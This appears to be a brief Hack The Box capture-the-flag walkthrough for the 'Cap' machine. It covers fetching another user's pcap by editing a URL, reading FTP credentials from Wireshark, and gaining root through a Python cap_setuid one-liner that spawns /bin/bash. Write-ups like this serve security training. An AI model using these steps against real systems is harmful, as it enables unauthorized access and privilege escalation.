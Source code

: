Hack The Box Challenge Writeup: "Cap"
Challenge Information:
Name: Cap
Platform: Hack The Box
Category: Privilege Escalation

Step 1: Connect to the Target
Start by connecting to the VPN and accessing the machine:

sudo openvpn lab_itspavit.ovpn
Verify the connection by pinging the target machine:
ping -c 4 <target-ip>

Once the target is accessible use nmap to look for open ports. It shows 3 (SSH, HTML, FTP)

Step 2: open the target ip html page

go to security snapshot tab and switch the url to <ip address>/data/0

download the pcap and analyze it using wireshark

look at packets 36 and 38 to find the username and password

Step 3: ssh using the information to login into the server

use ls -la 

and cat user.txt to reveal the first flag

Step 4: use "getcap -r / 2>/dev/null" to reveal hidden binaries

Step 5: /usr/bin$ python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
run the python script to get root priveleges

Step 6: After getting root access use cd /root and then cat root.txt to reveal the flag